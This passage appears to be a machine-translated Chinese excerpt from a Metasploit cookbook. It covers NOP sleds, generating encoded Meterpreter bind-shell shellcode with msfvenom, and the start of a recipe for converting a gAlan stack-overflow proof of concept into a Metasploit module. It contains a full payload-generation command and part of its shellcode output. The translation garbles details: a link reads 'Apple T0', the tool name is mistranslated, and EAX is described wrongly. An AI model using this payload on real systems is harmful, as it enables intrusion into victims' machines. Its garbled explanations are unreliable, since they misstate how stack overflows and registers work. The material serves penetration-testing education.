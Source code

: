 ### 注

NOP slide、NOP sled 或 NOP ramp 是一系列 NOP（无操作）指令，用于将 CPU 的指令执行流“滑动”到其最终目标。

## 它是如何工作的。。。

要使用 `msfvenom`，我们必须传递一个有效负载和一个编码样式。让我们在终端窗口上执行此任务：

```
root@bt:~# msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3
[*] x86/shikata_ga_nai succeeded with size 325 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 352 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 379 (iteration=3)
buf =
"\xdb\xdb\xbe\x0a\x3a\xfc\x6d\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x52\x31\x72\x18\x83\xea\xfc\x03\x72\x1e\xd8\x09\xb6" +
"\xce\xc5\x86\x6d\x1a\xa8\xd8\x88\xa8\xbc\x51\x64\xe5\xf2" +
"\xd1\xb7\x80\xed\x66\x72\x6e\x0d\x1c\x68\x6a\xae\xcd\x0e" +
"\x33\x90\x1d\x73\x82\xd8\xd7\xe0\x87\x76\xbd\x25\xf4\x23" +
"\x4d\x38\xc2\xc3\xe9\xa1\x7e\x31\xc5\xe4\x84\x2a\x3b\x37" +
"\xb3\xd6\x13\xc4\x09\x89\xd0\x95\x21\x10\x6b\x83\x94\x3d" + 
```

请注意随有效负载一起传递的不同参数。 `-b`参数的存在将避免在 shell 代码中使用 `\x00`（空字节）。我们可以在我们的攻击程序中使用这个外壳代码。

`msfvenom`是一个非常方便的工具，可以使用框架中可用的不同有效负载快速生成 shell 代码。这些外壳代码可以在攻击代码中实现，以便在漏洞被攻击后提供与攻击者的反向连接。

# 将漏洞转化为 Metasploit 模块

到目前为止，我们已经使用漏洞模块来破坏我们的目标。在本食谱中，我们将把模块使用体验提升到一个新的水平。我们将尝试使用可用的概念证明开发一个完整的利用模块。为了将任何新的漏洞转化为框架模块并执行渗透测试，而不必等待 Metasploit 团队的更新，将漏洞转化为模块的知识至关重要。此外，不可能每个漏洞都以框架内模块的形式提供。因此，让我们继续讨论这个配方，看看如何使用可用的 PoC 构建我们自己的漏洞模块。

## 准备好了吗

首先，让我们选择任何可以转换为模块的漏洞。让我们考虑 Galon 零日开发，可以从 Apple T0 下载。http://www.exploit-db.com/exploits/10339 。

**gAlan**是一款适用于 X Windows 和 Win32 的音频处理工具（在线和离线）。它允许您通过将代表原始音频处理组件的图标链接在一起，以模块化的方式构建合成器、效果链、混音器、音序器、鼓机等。

只有当受害者正在使用此应用程序并且攻击者事先知道这一点时，才能利用 gAlan 进行攻击。因此，攻击者必须知道受害者机器上安装了哪些应用程序。

## 怎么做。。。

在开始利用漏洞转换之前，必须了解一些有关堆栈溢出攻击的知识。

在软件中，当调用堆栈上使用过多内存时，会发生堆栈溢出。调用堆栈是包含有限内存的软件运行时堆栈，通常在程序开始时确定。调用堆栈的大小取决于许多因素，包括编程语言、机器体系结构、多线程和可用内存量。当程序试图使用比调用堆栈上可用空间更多的空间时，堆栈被称为溢出，通常导致程序崩溃。本质上， `ESP, EIP`和 `EAX`是在利用漏洞期间受到攻击最多的寄存器。

*   `ESP:`指向堆栈顶部
*   `EIP:`指向下一条指令的位置
*   `EAX:`要执行的指令

由于在堆栈中，所有寄存器都是线性存储的，因此我们需要知道 `EIP`寄存器的确切缓冲区大小，以便溢出它将为我们提供 `EAX`和后续有效负载的执行。
